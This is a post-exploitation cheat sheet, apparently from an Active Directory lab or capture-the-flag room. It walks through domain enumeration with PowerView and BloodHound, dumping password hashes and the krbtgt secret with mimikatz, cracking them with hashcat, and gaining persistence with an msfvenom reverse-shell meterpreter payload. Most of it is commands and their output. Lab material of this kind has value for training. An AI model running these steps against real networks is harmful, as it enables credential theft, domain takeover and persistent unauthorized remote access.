 # Post exploitation basics

## Attack tree

```text
1 Enumeration with Powerview
2 Enumeration with Bloodhound
3 Dumping hashes with mimikatz
4 Golden ticket attacks with mimikatz
6 Maintaining Access
```

## Examples

### Enumeration with Powerview

ssh into machine:

    ssh Administrator@<MACHINE-IP>
    Administrator@<MACHINE-IP>'s password: 

    Microsoft Windows [Version 10.0.17763.737]

Start Powershell: `-ep` bypasses the execution policy of powershell

    controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Start PowerView:

    PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
    PS C:\Users\Administrator> cd .\Downloads

Enumerate the domain users:

    PS C:\Users\Administrator\Downloads> Get-NetUser | select cn
    
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd

Enumerate the domain groups:

    PS C:\Users\Administrator\Downloads> Get-NetGroup -GroupName *admin*
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins

Enumerate shares:

    PS C:\Users\Administrator\Downloads> Invoke-ShareFinder
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share

Enumerate operating systems running inside the network:

    PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem*
    
    operatingsystem                  operatingsystemversion
    ---------------                  ----------------------
    Windows Server 2019 Standard     10.0 (17763)
    Windows 10 Enterprise Evaluation 10.0 (18363)
    Windows 10 Enterprise Evaluation 10.0 (18363)

### Enumeration with Bloodhound

    powershell -ep bypass 
    . .\Downloads\SharpHound.ps1
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

Transfer the loot to attackerbox and load in bloodhound. Map the network.

### Dumping hashes with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /patch
    hashcat -m 1000 <hash.text> usr/share/wordlists/rockyou.txt

### Golden ticket attacks with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:krbtgt

### Maintaining Access

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

Transfer the payload from your attacker machine to the target machine and `use exploit/multi/handler`,
then execute the binary this will give a meterpreter shell back in metasploit. Background it.

    use exploit/windows/local/persistence
    set session 1

## Tools

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
# neo4j console
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)